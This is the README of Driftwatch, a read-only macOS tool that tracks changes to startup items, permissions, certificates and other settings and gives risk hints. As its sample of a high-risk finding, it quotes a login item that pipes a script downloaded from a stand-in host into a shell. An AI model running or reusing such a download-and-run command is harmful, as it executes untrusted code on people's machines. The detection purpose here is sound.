



<p align="center">
  
</p>

<h1 align="center">Driftwatch</h1>

<p align="center">See what changed on your Mac without you knowing.</p>

Apps quietly add things to your Mac: helpers that start at login, permissions to your camera or files, certificates, network settings. Driftwatch scans these places, keeps a history, and shows you what was added, changed or removed since the last scan, so nothing changes silently.

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="docs/screenshots/overview-look-dark.png">
    
  </picture>
  <br>
  <sub>Example data, not a real Mac.</sub>
</p>

It's for anyone who installs apps and wants to know what they left behind. It runs in the menu bar and in a window, and scans when it starts and every 30 minutes. The window opens on an overview: one sentence on whether anything risky changed in the last 7 days, changes per day for the last 30 days, and each area it watches. Everything stays on your Mac: no account, no network calls, and the code is all here to check.

## What it tells you

Each change gets a short title, one plain sentence about what it is, a risk hint with the reason, and who probably added it.

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="docs/screenshots/timeline-dark.png">
    
  </picture>
  <br>
  <sub>Example data, not a real Mac.</sub>
</p>

For the item at the top of the screenshot:

> **com.example.updater** (added, Startup items)
>
> Starts a program every time you log in. It runs: `/bin/sh -c curl -fsSL https://example.invalid/u.sh | sh`
>
> **High risk:** Downloads code from the internet and runs it straight away, a common malware trick.
>
> No "Added by" line: Driftwatch can't tell who made it.

In the timeline, a green ⊕ means added, an orange pencil means changed, and ⊖ means removed. **High risk** (red) marks patterns malware uses, such as downloading and running code. **Worth a look** (orange) marks things Driftwatch can't vouch for, such as a helper from an unknown developer. No label means nothing stood out.

The risk is a hint, not a verdict. "Added by" comes from a code signature when there is one; when Driftwatch only guesses from a name or folder, it says "likely". Select a change to see all its details and, for a changed item, what changed.

If something is flagged and you don't recognise it, search its name and where it runs from, or ask someone you trust before removing anything.

## What it watches

| Area | What it looks at |
|---|---|
| Startup items | Launch agents and daemons, login and background items, cron jobs, shell startup files |
| System extensions | Installed system extensions |
| Privacy permissions | Which apps can use your camera, microphone, files, screen and more (needs Full Disk Access) |
| Certificates | Certificates in your login and System keychains and their trust settings |
| Network | `/etc/hosts`, DNS resolvers |
| SSH | `authorized_keys`, SSH config, public keys, and which private keys exist (their contents are never read) |
| Apps | Code signatures of apps in `/Applications` and `~/Applications` |

Driftwatch only reads. It never deletes or changes anything. (A planned feature will let you turn off a startup item yourself, with a way to bring it back.)

## Status

Early, v0.1. The scanner, history, the menu bar app, and plain-language explanations with risk hints for each item work. You can download it as a DMG. Still to come:

- Turning off a startup item, with a way to bring it back
- Alerts for new risky items, before/after an install, a trusted baseline, a weekly digest, export

## Install

1. Check your Mac: Apple menu › About This Mac. If "Chip" says Apple M1 or later and macOS is 14 or later, it will run. (Intel Macs can only build from source for now.)
2. Download [Driftwatch_aarch64.dmg](https://github.com/jelwingeuan/Driftwatch/releases/latest/download/Driftwatch_aarch64.dmg), or pick it from [Releases](https://github.com/jelwingeuan/Driftwatch/releases).

   To check the download, save [Driftwatch_aarch64.dmg.sha256](https://github.com/jelwingeuan/Driftwatch/releases/latest/download/Driftwatch_aarch64.dmg.sha256) in the same folder and run `shasum -a 256 -c Driftwatch_aarch64.dmg.sha256` there; it should say `OK`. With the GitHub CLI you can also check it was built from this repository: `gh attestation verify Driftwatch_aarch64.dmg --repo jelwingeuan/Driftwatch`

3. Open the DMG and drag Driftwatch to Applications.
4. Open Driftwatch. macOS will stop it once, because Apple hasn't reviewed it (that needs a paid developer account; the code is open here instead). Go to System Settings › Privacy & Security, scroll down, and click **Open Anyway** next to Driftwatch.

   If you're comfortable with Terminal, this does the same: `xattr -dr com.apple.quarantine /Applications/Driftwatch.app`

What it will ask for:

- **Your Mac password**, when it reads login and background items. macOS only shares those with an administrator. This happens on the first scan, when you click Scan Now, and at most once a day after that.
- **Full Disk Access**, optional, to see which apps can use your camera, microphone and files. See [Full Disk Access](#full-disk-access).

To uninstall, quit it from the menu bar, drag it from Applications to the Trash, and delete the folder `~/Library/Application Support/Driftwatch` to remove its history.

## Build from source

Needs macOS 14 or later, Rust (`cargo`) and Xcode command line tools (`swift`).

```bash
git clone https://github.com/jelwingeuan/Driftwatch.git
cd Driftwatch
scripts/build-app.sh
open build/Driftwatch.app
```

The script builds the Rust scanner and the SwiftUI app, puts both in `build/Driftwatch.app`, and signs it ad hoc.

To regenerate the README screenshots from the example data in `docs/screenshots/demo-history.json`:

```bash
scripts/build-app.sh && scripts/screenshots.sh
```

It runs a separate copy of the app with a stub scanner that only prints the example data, so your own history and settings are not touched. It writes the timeline and the overview in three states (nothing risky, risky changes, can't see everything), each in light and dark.

### Full Disk Access

Privacy permissions live in a protected database. To see them, add Driftwatch in System Settings › Privacy & Security › Full Disk Access. Without it, everything else still works and that area shows as unreadable. Driftwatch only uses this access to read that one database, not your documents.

## Command line

The scanner also works on its own:

```bash
cargo run --release -- scan          # scan and print what changed since the last scan
cargo run --release -- scan --json   # the same, as JSON
cargo run --release -- scan --skip btm   # leave out an area (here login & background items, which ask for your password)
cargo run --release -- history --json --limit 20
```

History is stored in `~/Library/Application Support/Driftwatch/driftwatch.db`.

## How it's built

- `core/`: Rust. One collector per area, a diff of each scan against the last, and a SQLite store.
- `app/`: SwiftUI menu bar app and window. It runs the bundled scanner and reads its JSON.
- `docs/`: the [prior-art check](docs/prior-art.md) and the [v1 plan](docs/plan.md).

## Security

To report a security problem, see [SECURITY.md](SECURITY.md).

## License

MIT, see [LICENSE](LICENSE).
